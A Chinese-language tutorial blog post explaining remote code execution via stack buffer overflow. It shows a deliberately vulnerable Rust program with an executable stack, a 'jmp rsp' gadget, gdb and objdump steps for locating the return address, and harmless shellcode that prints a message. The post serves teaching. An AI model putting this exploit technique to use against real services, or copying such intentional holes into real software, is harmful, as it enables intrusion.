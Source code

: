 RCE, DoS
========

> 這次的程式碼在 https://github.com/DanSnow/ironman-2019/tree/master/buffer-overflow

這篇的內容其實有點偏離主題了，不過因為也挺有趣的，所以再加上上一篇，我寫了兩篇來介紹，事實上這篇的內容還有本書叫「緩衝區溢位攻擊與防範」來討論這些內容，不知道各位有沒有聽過「[遠端程式執行漏洞 (Remote Code Executation, RCE)][rce-wiki]」，簡單來說就是讓你可以透過某些方法使得你可以在另一臺機器，或是另一個執行緒中執行任意的程式碼，那跟上一篇提到的 stack overflow 又有什麼關係呢？

[rce-wiki]: https://en.wikipedia.org/wiki/Arbitrary_code_execution

RCE
---

首先先讓我們來認識一下 RCE ，只要能在其它的處理緒中執行任意的程式碼都叫做 RCE ，如果你有看過類似的漏洞的報導的話，你可能會注意到現在大部份這類型的漏洞是由反序列化 (deserialize) 所引起的，但在以前由 buffer overflow 引起的可是不少喔

> 說到 RCE 我想到之前一個讓我印像挺深的 mysql 漏洞 [CVE-2016-6662][mysql-cve] ，這個漏洞的起因是可以用指令開啟 log 的功能與設定 log 輸出的位置，但這個位置也可以是 mysql 的設定檔，於是就可以寫入讓 mysql 載入其它 so 檔的設定

[mysql-cve]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6662

所以為什麼 buffer overflow 會引起 RCE ，這部份我們跟 DoS 一起講吧，首先 DoS 的中文是阻斷服務攻擊 (Denial of Service) ，意思是讓別人的服務停止運作，另外還有個名詞叫 DDoS 分散式阻斷服務攻擊，這一般是指用大量的流量讓別人的服務沒辦法正常運作，但這需要設法產生大量的流量才有辦法達到，如果說我僅僅是發送個特殊的資料過去對方的服務就能造成他的服務當機會發生什麼事，假如他們的服務正好有 buffer overflow 的問題，而你也能產生能造成這個問題的資料的話，還記得在前一篇中的 stack overflow 中，我們的程式直接執行到未預期的地方而當了嗎？

所謂的 buffer overflow 是程式用來暫存資料的空間寫入超過其大小的位置，這在 C 語言中其實還挺容易發生的，在 C 語言中像 `strcpy` 、 `strcat` 這類處理字串的 API 都沒有限制長度的參數，它們都是相信存在字串中結尾的 `\0` 當作中斷點，而不會去注意到存放字串的指標指向的空間是不是真的足夠，那如果這個 buffer 又是放在堆疊上的，那不就有機會引發 stack overflow 了嗎，只要讓對方的服務執行到異常的位置，那他的服務可能就會就此停止運作了

那 stack overflow 又要怎麼造成 RCE ，當能覆寫返回位置時，如果返回位置指向的是可以正常執行的指令會發生什麼事，程式會繼續執行下去，比如你知道對方的程式裡有某個位置執行的程式是清空硬碟的話，就把這個位置寫進去它的程式就會跳過去執行了，但這樣還是沒有達到執行任意程式的功能，說來以前的 CPU 可沒有指定哪段記憶體禁止執行程式的功能喔，如果我們寫入一個特殊的記憶體位置接下來則是想要執行的指令，只要那個記憶體位置執行的指令是跳到堆疊的位置去執行指令的話不就能執行剩下來放在堆疊上的指令了嗎？

我們來嘗試看看吧，先來準備基本的程式：

```rust
use std::{
  io::{self, Read},
  ptr,
};

extern "C" {
  pub fn jump_stack() -> !;
}

// 這個函式不該被執行到
fn use_jump_stack() {
  println!("This should not print");
  unsafe {
    jump_stack();
  }
}

fn buffer_overflow(b: &[u8]) {
  let mut buf = [0u8; 0];
  unsafe {
    // 這邊把讀進來的資料硬寫進一個長度為 0 的陣列，造成 stack overflow
    ptr::copy(b.as_ptr(), buf.as_mut_ptr(), b.len());
  }
}

fn main() {
  let mut buf = Vec::new();
  unsafe {
    // 設定 stack 為可執行的
    // 這用來解除防止 stack overflow 造成 RCE 的其中一個保護機制
    libc::mprotect(
        (&mut buf as *mut _ as usize & (-libc::sysconf(libc::_SC_PAGE_SIZE) as usize))
            as *mut libc::c_void,
        4096,
        libc::PROT_READ | libc::PROT_WRITE | libc::PROT_EXEC,
    );
  }
  // 從標準輸入讀進資料，模擬由外部讀入的資料造成 RCE
  io::stdin().read_to_end(&mut buf).unwrap();
  buffer_overflow(&buf);
  // 使用一下 jump_stack ，不然不會被連結進來
  use_jump_stack();
}
```

其中 `jump_stack` 是一段用組語寫成的程式，它只有一個用途，就是跳到 stack 上執行：

```asm
.intel_syntax noprefix
.global jump_stack
jump_stack:
  jmp rsp
```

一般來說應該要在程式本身或會用到的動態函式庫來找看看有沒有 `jmp rsp` 這個指令的，不過因為這邊是示範，所以我們就自己寫一個在程式裡了

接下來為了產生能夠造成 RCE 的輸入資料，我們需要知道兩個東西，第一個是 `jmp rsp` 這個指令的記憶體位置，第二個是會造成 overflow 的 buffer 在 stack 中的位置距離返回位置有多遠，為了示範的方便，我們直接用 `objdump` 與 `gdb` 來看答案吧

> 以下記憶體位置可能會因為系統與編譯器版本影響而有所不同，如果要自己做請務必自己重新找過位置

先用 objdump 找出 `jump_stack` 的偏移位置：

```shell
$ objdump -M intel -d <exe path>
...
00000000000065d5 <jump_stack>:
    65d5:	ff e4                	jmp    rsp
    65d7:	66 0f 1f 84 00 00 00 	nop    WORD PTR [rax+rax*1+0x0]
    65de:	00 00
...
```

因為輸出會很長，我會建議你用 `objdump -M intel -d <exe path> > <output file>` 這樣的方式輸出到檔案再慢慢找

這邊的 `65d5` 就是我們要的偏移位置，這個位置再加上程式碼載入到記憶體中的起始位置就是實際位置了

再來我們再用 `gdb` 來找與返回位置的距離與程式碼載入的起始位置，先準備一個輸入檔，檔案內容先隨意，我們先打開 gdb ：

```shell
$ gdb <執行檔位置>
>>> b buffer_overflow
>>> r < <輸入檔位置>
```

接著輸入 `b buffer_overflow` 與 `r < <輸入檔位置>`，程式將會執行起來並在 `buffer_overflow` 的函式暫停，這時開始輸入 `ni` 讓 gdb 單步執行，你並不需要每次都輸入 `ni` ，如果你直接按 Enter 的話 `gdb` 會自動重覆上一次的指令，所以只要一開始輸入就好，我們需要執行直到找到 `call ... <core::slice::<impl [T]>::as_mut_ptr>` 也就是呼叫 `as_mut_ptr` 的時候，那句組語的前一行大概會是像這樣的：

```plain
0x0000555555559e46  demo::buffer_overflow+38 lea    rdi,[rsp+0x37]
0x0000555555559e4b  demo::buffer_overflow+43 call   0x5555555594e0 <core::slice::<impl [T]>::as_mut_ptr>
```

這邊的 `lea` 指令是在把 `buf` 的位置存到 `rdi` 準備當 `as_mut_ptr` 的參數，可以看到它的位置是 `rsp + 0x37` 先繼續單步執行下去，找到像這樣的指令

```plain
0x0000555555559e7d  demo::buffer_overflow+93 add    rsp,0x38
```

這邊是在把使用到的堆疊空間還回去，所以它用了 `0x38` 的空間，對照上面的就可以知道 `buf` 的位置只差返回位置 1 個 byte 的空間而已，接著輸入 `info proc mappings`

```plain
>>> info proc mappings
process 28965
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555589000    0x35000        0x0 demo
 ...
```

這邊就可以看到程式開始的位置是 `0x555555554000`，事實上這就是 proc 下的 `maps` 的檔案內容，所以從那邊看也行，把開始位置加上之前的偏移得到的是 `0x55555555a5d5`，到這邊我們需要的資訊都有了，所以我們開頭要覆寫的內容就是 1 個 byte 的值，再加上我們要的返回位置，用 16 進位表示會是：

```plain
0x00 0xd5 0xa5 0x55 0x55 0x55 0x55 0x00 0x00
```

這個我們先把它存成叫 `header` 的檔案備用，你可能會想問為什麼位置反過來了，因為目前大多的電腦用的是 little endian ，這之後可以再來講，再來要準備我們想執行的程式碼，這邊要用組語寫：

```asm
.intel_syntax noprefix
jmp start # 因為我們把訊息跟程式混在一起，所以要跳過訊息，不然會被當成程式執行
msg: .ascii "Hello from shellcode\n"
start:
# 計算訊息的位置，是用程式目前執行的位置減去訊息的長度與指令本身的長度
lea rsi, [rip - 28]
mov rax, 1 # write
mov rdi, 1 # 標準輸出
mov rdx, 21 # 訊息長度
syscall
mov rax, 60 # exit
mov rdi, 0
syscall
```

計算訊息位置那邊如果有不是自己手算的更好的寫法歡迎留言告訴我，然後我們把這個檔案存成 `shellcode.s` 後它編譯成機器碼：

```shell
$ as -o shellcode.o shellcode.s # 組譯
$ objcopy -O binary shellcode.o shellcode # 取出機器碼的部份
$ cat header shellcode > input # 把檔案組合成 input
$
```

再來把 `gdb` 重開，我們用剛剛的輸入檔重跑一次看看，這次不用加中斷點了，直接輸入 `r < input` 來執行：

```plain
>>> r < input
Hello from shellcode
```

我們的訊息印出來啦，那如果不要在 `gdb` 中執行呢？你可以自己試試看，因為這篇有點太長了，我們下集待續
